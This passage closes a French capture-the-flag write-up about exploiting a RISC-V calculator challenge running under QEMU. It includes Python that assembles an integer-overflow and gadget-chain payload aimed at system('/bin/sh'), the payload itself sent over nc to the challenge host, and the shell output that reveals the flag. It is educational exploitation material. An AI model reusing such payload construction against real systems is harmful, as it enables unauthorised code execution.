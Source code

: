 ```python
# Replacing some of "0(0)" expressions by "-0" because it takes less characters and inputs is limited at 128 chars.
second_stage = "-----0"

for i in range(17 - 5):
    second_stage = f"0({second_stage})"

    
# Third stage : Adding gadgets

third_stage = f"{first_stage}({second_stage}+{str(first_gadget)}-{str(first_gadget-second_gadget)}+{str(binsh_address-second_gadget)}-{str(binsh_address-third_gadget)}+{str(system_address-third_gadget)})"

# Last stage : Adding Integer overflow with handle_power function : 

fourth_stage = f"({third_stage})**8188"

payload = fourth_stage
print(payload)

# ((1*1)(0(0(0(0(0(0(0(0(0(0(0(0(-----0))))))))))))+274886687366-273791891781+273792730503-273775887494+273775088710))**8188
```

Etant donné que le `sysroot` fourni avec le challenge ne comportait pas de binaire `sh`, on ne peut pas tester notre exploit en local on va donc la lancer directement en remote et comme l'input est alphanumérique uniquement on a même pas besoin de pwntools 😉:

```c
nc instances.challenge-ecw.fr 42556
>> ((1*1)(0(0(0(0(0(0(0(0(0(0(0(0(-----0))))))))))))+274886687366-273791891781+273792730503-273775887494+273775088710))**8188

id
uid=1000 gid=1000 groups=1000
ls
calculator-shadow
flag.txt
qemu-riscv64-shadow
run
sysroot
cat flag.txt
ECW{1n57ruc710n_5375_w4n7_70_b3_fr33}
```

## Conclusion

J'ai beaucoup aimé ce challenge parce qu'il était très original et vraiment réaliste tout en me permettant d'en apprendre plus sur l'API frontend des tcg QEMU!